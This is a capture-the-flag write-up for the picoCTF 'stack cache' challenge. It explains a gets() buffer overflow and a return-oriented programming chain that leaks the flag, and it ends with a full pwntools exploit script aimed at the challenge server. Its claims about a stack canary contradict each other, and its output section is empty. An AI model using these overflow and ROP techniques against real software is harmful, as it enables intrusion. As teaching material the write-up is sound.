

# 🧨 picoCTF Writeup – stack cache (`vuln`)

## 🧾 Summary

We are given a statically compiled, **32-bit** ELF binary named `vuln`. The goal is to **leak the flag** by exploiting a `gets()`-based buffer overflow in the `vuln()` function.

We will build a **Return-Oriented Programming (ROP)** chain to:

1. Call `win()` to load the flag into a local buffer.
2. Call a `mov [esp+4], eax; call printf` gadget to print the flag.
3. Use a format string (`"%s"`) as a parameter to print the string pointed to by `eax`.

---

## 🧱 Understanding the Source Code

Here's the breakdown of the code sections:

### 🔸 `main()`

```c
int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);  // No buffering (immediate output)
  gid_t gid = getegid();             // Needed to keep correct privileges
  setresgid(gid, gid, gid);
  vuln();                            // Vulnerable function
  printf("Bye!");
  return 0;
}
```

This just sets up the environment and jumps to the vulnerable function `vuln()`.

---

### 🔸 `vuln()`

```c
void vuln(){
   char buf[INPSIZE]; // INPSIZE = 10
   printf("Give me a string that gets you the flag\n");
   gets(buf); // 🚨 Vulnerable: allows buffer overflow
   printf("%s\n",buf);
   return;
}
```

* The buffer is **10 bytes**.
* It uses `gets(buf)` — a **classic buffer overflow vulnerability**.
* There is **no stack canary** or PIE, making it ideal for ROP.

---

### 🔸 `win()`

```c
void win() {
  char buf[FLAGSIZE];       // 64-byte flag buffer
  char filler[BUFSIZE];     // unused
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Please create 'flag.txt' ...\n");
    exit(0);
  }
  fgets(buf,FLAGSIZE,f);    // 📌 flag is now in buf
}
```

* This function reads the flag into a **local variable** (`buf`) on the stack.
* It does **not print** the flag.
* But! It stores the **flag address in `eax`** when returning (due to stack layout).

---

## 🛠️ Exploitation Plan

We want to:

1. **Overflow the buffer** in `vuln()` to gain control of EIP.
2. Call `win()` → this reads the flag into a local buffer and returns with **`eax = flag_buf`**.
3. Use a gadget that does:
   `mov dword [esp+4], eax; call printf` → passes `eax` as argument to `printf`.
4. Pass address of `"%s"` string as second argument to `printf`.

---

## 🔍 Analyzing Binary with radare2

Let’s confirm the gadget and the string:

### 🔸 1. The Gadget

```r2
/ mov dword [esp+4], eax; call
```

Found:

```
0x08049edb   mov dword [esp+0x4], eax
             call sym.imp.printf
```

Perfect. This gadget will:

* Set up `eax` as the argument to `printf("%s", eax)`
* Then call `printf`.

### 🔸 2. The Format String `%s`

```r2
iz~%s
```

Found:

```
0x080b4011  ascii   %s
```

---

## 💣 Final ROP Chain

Let’s build the payload step-by-step.

### 📍 Buffer Offset

From trial or pattern-finding, offset to EIP = **14 bytes**

### 📍 Chain:

```python
payload = b"a" * 14 + flat(
    [
        elf.sym["win"],  # call win() → stores flag address in eax
        ret, ret, ret, ret, ret, ret, ret, ret,  # alignment to avoid stack corruption
        0x08049EDB,       # mov [esp+4], eax; call printf
        0x080b4011,       # address of "%s" format string
    ]
)
```

### 🧠 Why Add `ret` multiple times?

* Some functions or gadgets might assume the stack is aligned.
* In practice, multiple `ret` gadgets are used to pad the stack or avoid misalignment crashes.
* You can test without them, but sometimes they prevent weird segfaults.

---

## 🧪 Running the Exploit

### Local

```python
USE_REMOTE = False
```

```bash
python3 exploit.py
```

---

### Remote

```python
USE_REMOTE = True
REMOTE_HOST = "saturn.picoctf.net"
REMOTE_PORT = 64851
```

```bash
python3 exploit.py
```

### Output

You will get:



---

## 🧑‍💻 Full Exploit Script

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
context.arch = "i386"

elf = ELF("./vuln")
rop = ROP(elf)
ret = rop.find_gadget(["ret"]).address

USE_REMOTE = True
REMOTE_HOST = "saturn.picoctf.net"
REMOTE_PORT = 64851

if USE_REMOTE:
    io = remote(REMOTE_HOST, REMOTE_PORT)
else:
    io = elf.process()

payload = b"a" * 14 + flat(
    [
        elf.sym["win"],      # sets eax = &flag_buf
        ret, ret, ret, ret, ret, ret, ret, ret,
        0x08049EDB,          # mov [esp+4], eax; call printf
        0x080b4011,          # address of "%s"
    ]
)

io.sendlineafter(b"the flag\n", payload)
io.interactive()
```

---

## ✅ Takeaways

* `gets()` + small buffer = buffer overflow
* ROP lets you chain execution from one function to another
* `win()` can help even if it doesn’t print the flag — just capture where it puts the flag (here, in `eax`)
* `mov [esp+4], eax; call printf` is a handy gadget to call printf with a value of our choosing

---


> [!NOTE]  
> Small buffers often won’t get stack canaries under default protections.
> But not always — it depends on compiler flags and buffer usage.
> This binary has canary enabled but we did not see any.
